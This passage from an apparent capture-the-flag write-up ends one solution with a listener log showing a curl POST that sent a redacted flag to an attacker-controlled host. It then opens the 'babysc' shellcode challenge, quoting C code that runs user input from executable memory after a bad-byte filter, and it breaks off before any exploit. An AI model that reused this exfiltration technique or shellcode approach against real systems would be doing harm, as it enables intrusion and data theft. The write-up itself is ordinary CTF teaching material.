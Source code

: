    ```sh
   Listening on 0.0.0.0 80
   Connection received on 104.214.185.119 41800
   POST / HTTP/1.1
   Host: 164.92.121.195
   User-Agent: curl/7.52.1
   Accept: */*
   Content-Length: 41
   Content-Type: application/x-www-form-urlencoded

   umcs{<flag_redacted>}
   ```

## 3.0 babysc

### 3.1 Description

shellcode

`34.133.69.112 port 10001`

### 3.2 Category

PWN

### 3.3 Attachments

- babysc
- babysc.c
- Dockerfile

### 3.4 Solution

1. Inspect `babysc.c`:

   ```c
   void vuln(){
     // some code
     shellcode = mmap((void *)0x26e45000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);

      puts("Enter 0x1000");
      shellcode_size = read(0, shellcode, 0x1000);
     for (int i = 0; i < shellcode_size; i++)
     {
       uint16_t *scw = (uint16_t *)((uint8_t *)shellcode + i);
       if (*scw == 0x80cd || *scw == 0x340f || *scw == 0x050f)
       {
         printf("Bad Byte at %d!\n", i);
         exit(1);
       }
     }
     puts("Executing shellcode!\n");
      ((void(*)())shellcode)();
   }
   ```
